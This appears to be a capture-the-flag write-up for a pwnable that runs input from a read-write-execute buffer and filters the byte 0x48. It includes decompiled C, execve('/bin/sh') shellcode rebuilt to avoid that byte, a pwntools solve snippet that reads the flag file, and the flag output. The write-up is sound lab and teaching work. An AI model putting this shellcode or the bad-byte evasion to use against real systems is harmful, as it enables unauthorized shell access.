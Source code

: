 # level-1

## Introduction

A pwnable passed down from my mentor, @huckfinn. This problem focuses on
creating shellcode with certain bad bytes. The objective is to get a shell
without using the hex byte `\x48`.

## Information Gathering

### Hint #1

> This program will literally do anything you want it to do (as long as you
don't use the `\x48` byte).

```shell
$ checksec ./level-0
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

### Dynamic

This program behaves in the same manner as the previous [level][level].

### Static

We threw the program in Ghidra and this was the result after some cleanup.

```c
int main(void){
  code *__buf;
  ssize_t sVar1;
  code *pcVar2;

  init_chal();
  __buf = (code *)mmap((void *)0x0,0x1000,7,0x22,-1,0);
  sVar1 = read(0,__buf,0x1000);
  if (sVar1 != 0) {
    pcVar2 = __buf;
    do {
      if (*pcVar2 == (code)0x48) {
        *pcVar2 = (code)0xff;
      }
      pcVar2 = pcVar2 + 1;
    } while (pcVar2 != __buf + sVar1);
  }
  (*__buf)();
  return 0;
}
```

This is the same as the previous [level][level] except for the do-while loop
that compares each byte with `\x48` and replaces it with `\xff`. Below is a
rehash of the same description as [level-0][level]:

Notably, the `main` function is `mmap`ing the region of memory where `buf` is
with the following arguments: `mmap(addr=NULL, length=0x1000, prot=0x7,
flags=0x22, fd=0xfffffff, offset=0x0)`

The prot (protections) argument describes the desired memory protection of the
mapping. It is a bitwise OR of one or more of the following flags:

```c
#define PROT_READ	  0x1		/* page can be read */
#define PROT_WRITE    0x2       /* page can be written */
#define PROT_EXEC	  0x4		/* page can be executed */
#define PROT_SEM	  0x8		/* page may be used for atomic ops */
#define PROT_NONE	  0x0		/* page can not be accessed */
```

With a prot bitmask of 0x7 the memory location is set to read, write, and
execute. The combination of the latter two are particularly interesting when we
see that it is actually executing the contents of `buf` as though there are
instructions there. There currently aren't, but could there be?

Yes! We just need to send the program some shellcode to execute.

## Strategy

We attempted to use the shellcraft module to generate the shellcode, just as in
[level-0][level]. There is an encoding functionality such that we could specify
that `\x48` is a bad byte and should be avoided. Unfortunately, we were unable
to create shellcode this way. The module simply reported that it was not
possible with its current functionality. Compiling bits of assmembly and taking
a look at the opcodes for amd64, we found that the `\x48` byte was generally
created when we tried to use the `mov` instruction into one of the base amd64
registers. We learned that we could avoid the `\x48` byte by using the `movabs`
instruction into one of the amd64 extended registers (ie, `$r11`). We thus used
the following shellcode, inspired by a [blog post][blog] we found that was
attempting to create really short shellcode.

```asm
0:   31 f6                   xor    esi,esi                 /* zero out register */
2:   56                      push   rsi                     /* push to top of stack */
3:   49 bb 2f 62 69 6e 2f    movabs r11,0x68732f2f6e69622f  /* move /bin/sh into r11 */
a:   2f 73 68
d:   41 53                   push   r11                     /* /bin/sh top of stack */
f:   54                      push   rsp                     /* memory location of /bin/sh top of stack */
10:   5f                     pop    rdi                     /* edi now contains the address of /bin/sh */
11:   b8 00 00 00 00         mov    eax,0x0                 /* mov 0 into rax */
16:   b0 3b                  mov    al,0x3b                 /* move execve sys call into rax */
18:   0f 05                  syscall                        /* call our execve */
```

We added this to our solution and created the byte string needed to send to the program:

```python
shellcode = """
/* push argument into rsi (second argument to execve) */
xor esi, esi                /* zero out register */
push rsi                    /* push to top of stack */

/* set up first argument */
mov r11, 0x68732f2f6e69622f /* move /bin/sh into r11 */
push r11                    /* /bin/sh top of stack */
push rsp                    /* memory location of /bin/sh top of stack */
pop rdi                     /* edi contains the address of /bin/sh */

/* set up third argument */
mov eax, 0x0                /* mov 0 into rax */
mov al, 0x3b                /* move execve sys call into rax */

/* call our execve */
syscall
"""

io.sendline(asm(shellcode))

# Get the flag.
io.sendline('cat flag.txt')
flag = io.recv()
```

## The Solution (with a caveat)

You should be able to run the script like so and get the flag!

```shell
$ python3 ./solve.py
[+] Flag: b'flag{AreYouTryingToTellMeICanDodgeBullets?}\n'
[+] Time: Time: 0.10761523246765137
```

## Mitigations

I won't even discuss exploitation mitigations since the develops purposefully made `buf` RWX. :)

[level]: /random-pwnables/level-0/README.md
[blog]: https://systemoverlord.com/2016/04/27/even-shorter-shellcode.html
